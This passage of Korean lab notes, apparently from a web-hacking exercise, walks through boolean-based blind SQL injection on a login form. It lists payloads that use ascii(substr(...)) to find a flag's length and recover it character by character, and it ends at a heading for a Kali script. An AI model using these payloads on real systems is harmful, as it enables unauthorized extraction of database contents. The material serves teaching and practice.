 ' or ascii(substr((select Flag from Kh7fK limit 0,1),2,1)) = 0 # -> 로그인 실패

.

.

.

' or ascii(substr((select Flag from Kh7fK limit 0,1),18,1)) = 0 # -> 로그인 성공 -> Value는 17글자구나



=> 17글자



2. 무슨 글자인지 알아보기

' or ascii(substr((select Flag from Kh7fK limit 0,1),1,1)) = 70 # -> F

' or ascii(substr((select Flag from Kh7fK limit 0,1),2,1)) = 117 # -> u

' or ascii(substr((select Flag from Kh7fK limit 0,1),3,1)) = 110 # -> n

' or ascii(substr((select Flag from Kh7fK limit 0,1),4,1)) = 95 # -> _

' or ascii(substr((select Flag from Kh7fK limit 0,1),5,1)) = 87 # -> W

' or ascii(substr((select Flag from Kh7fK limit 0,1),6,1)) = 101 # -> e

' or ascii(substr((select Flag from Kh7fK limit 0,1),7,1)) = 98 # -> b

' or ascii(substr((select Flag from Kh7fK limit 0,1),8,1)) = 95 # -> _

' or ascii(substr((select Flag from Kh7fK limit 0,1),9,1)) = 72 # -> H

' or ascii(substr((select Flag from Kh7fK limit 0,1),10,1)) = 97 # -> a

' or ascii(substr((select Flag from Kh7fK limit 0,1),11,1)) = 99 # -> c

' or ascii(substr((select Flag from Kh7fK limit 0,1),12,1)) = 107 # -> k

' or ascii(substr((select Flag from Kh7fK limit 0,1),13,1)) = 105 # -> i

' or ascii(substr((select Flag from Kh7fK limit 0,1),14,1)) = 110 # -> n

' or ascii(substr((select Flag from Kh7fK limit 0,1),15,1)) = 103 # -> g

' or ascii(substr((select Flag from Kh7fK limit 0,1),16,1)) = 63 # -> ?

' or ascii(substr((select Flag from Kh7fK limit 0,1),17,1)) = 33 # -> !



=> Fun_Web_Hacking?!



### Boolean-Based Blind Injection - Script (146p)

###### 칼리

root@kali-04:~/Desktop# vim first_blind.py

```
 172.16.10.20 으로 주소 3개 다 바꿔주기
```
